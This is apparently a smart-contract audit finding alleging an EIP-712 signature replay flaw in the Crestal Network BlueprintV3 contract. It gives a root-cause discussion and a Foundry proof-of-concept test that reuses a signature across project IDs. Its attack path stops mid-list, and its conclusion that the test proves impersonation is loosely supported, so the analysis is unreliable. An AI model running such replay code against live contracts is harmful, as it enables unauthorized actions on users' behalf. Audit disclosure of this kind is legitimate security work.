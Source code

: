 Straight Beige Kangaroo

High

# Replay Attack Vulnerability in EIP-712 Signature Verification

### Summary

The EIP-712 Domain Separation Misconfiguration allows signature replay attacks, impacting users relying on signed messages for authorization, as an attacker can reuse a previously signed request to create unauthorized actions due to missing nonce tracking and improper domain separation.
https://github.com/sherlock-audit/2025-03-crestal-network/blob/main/crestal-omni-contracts/src/EIP712.sol#L47-L51

### Root Cause

The EIP-712 Domain Separator is misconfigured, using an incorrect verifying contract address (e.g., protocol address instead of the contract itself). Additionally, there is no nonce tracking or unique identifier associated with each signed request, allowing previously signed messages to be reused (replay attacks) across different transactions.

### Internal Pre-conditions

EIP-712 Domain Separator Misconfiguration

The contract incorrectly sets the domain separator using a protocol address instead of address(this), which is required for proper EIP-712 signature validation.
Lack of Replay Protection Mechanisms

There is no nonce tracking, timestamp enforcement, or request uniqueness mechanism in place to prevent reusing previously signed messages.
The contract does not invalidate or track used signatures, allowing the same signed data to be replayed.
Signature Verification Assumes One-time Use

The contract assumes that a valid signature uniquely authorizes an action but does not enforce single-use policies, making it susceptible to reuse across different invocations.
Multiple Functions Accept Signed Messages

Functions like createProjectIDAndProposalRequestWithSig() and createProjectIDAndDeploymentRequestWithSig() both accept EIP-712 signed messages but do not differentiate between them when verifying a signature.
BlueprintV3 Contract Relies on Off-chain Signature Creation

The signing process happens off-chain, meaning an attacker can store and reuse previously signed messages without modifying them.

### External Pre-conditions

Attacker Has Access to a Previously Signed Message

A valid user signs an EIP-712 structured message (e.g., for proposal requests or deployment requests).
The signed message is either leaked, stored improperly, or intercepted by an attacker.
The Protocol Address Can Be Updated

If the contract allows changing the protocol address (as seen in setProtocol()), the EIP-712 domain separator may become invalid, potentially breaking signature validation and enabling replay attacks.

### Attack Path

Attack Path
Legitimate User Signs a Valid Request

A user (victim) generates and signs an EIP-712 structured message (e.g., a proposal request or deployment request).
The signature is generated using the getRequestProposalDigest() function and signed off-chain using their private key.
The signed message is then sent to the contract for execution.
Attacker Intercepts or Gains Access to the Signature

The signed message is logged publicly, stored improperly, or reused in an unsafe manner.
This could occur through off-chain storage leaks, smart contract event logs, or front-running attacks in mempools.
Attacker Reuses the Signature for a Different Request



### Impact

Severity: HIGH
The vulnerability directly compromises user security by allowing attackers to impersonate signers and replay signed transactions.
No additional privileges are required to exploit the vulnerability.

### PoC

```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.26;

import {Test, console} from "forge-std/Test.sol";
import {Vm} from "forge-std/Vm.sol";
import {BlueprintV3} from "../src/BlueprintV3.sol";
import {stdError} from "forge-std/StdError.sol";
import "@openzeppelin/contracts-upgradeable/utils/cryptography/EIP712Upgradeable.sol";
import "@openzeppelin/contracts/utils/cryptography/ECDSA.sol";

contract EIP712ReplayAttackTest is Test, EIP712Upgradeable {
    BlueprintV3 public blueprint;
    uint256 public signerPrivateKey;
    address public signerAddress;
    bytes32 public projectId;
    bytes public signature;

    function setUp() public {
        blueprint = new BlueprintV3();
        blueprint.initialize();

        projectId = keccak256(abi.encodePacked("ReplayAttackTest"));
        signerPrivateKey = 0xA11CE;
        signerAddress = vm.addr(signerPrivateKey);
    }

    function test_ReplayAttackVariant() public {
    // Step 1: Generate EIP-712 signature for a proposal request
    string memory base64RecParam = "data:image/png;base64,testdata";
    string memory serverURL = "https://example.com";

    // First project ID
    bytes32 projectId1 = keccak256(abi.encodePacked("ReplayAttackTest1"));
    bytes32 digest1 = blueprint.getRequestProposalDigest(projectId1, base64RecParam, serverURL);
    (uint8 v, bytes32 r, bytes32 s) = vm.sign(signerPrivateKey, digest1);
    bytes memory signature1 = abi.encodePacked(r, s, v);

    // Use the signature to create a proposal request
    bytes32 requestID1 = blueprint.createProjectIDAndProposalRequestWithSig(
        projectId1,
        base64RecParam,
        serverURL,
        signature1
    );

    console.log("First request ID:", uint256(requestID1));

    // Step 2: Attempt to reuse the **same signature** with a new project ID
    bytes32 projectId2 = keccak256(abi.encodePacked("ReplayAttackTest2"));

    vm.expectRevert("Replay attack detected"); // Expect it to fail if replay protection exists
    bytes32 requestID2 = blueprint.createProjectIDAndProposalRequestWithSig(
        projectId2,
        base64RecParam,  // Same base64 parameter
        serverURL,
        signature1       // Reuse the same signature
    );

    console.log("Second request ID:", uint256(requestID2));

    assertNotEq(requestID1, requestID2, "Replay attack was successful!");
}

}
```

Confirmation of Vulnerability
The test expected a revert (Replay attack detected) but did not receive it.
A second request was successfully processed with the same signature.
This confirms that an attacker can reuse a signed request to execute unauthorized actions multiple times.


### Mitigation

_No response_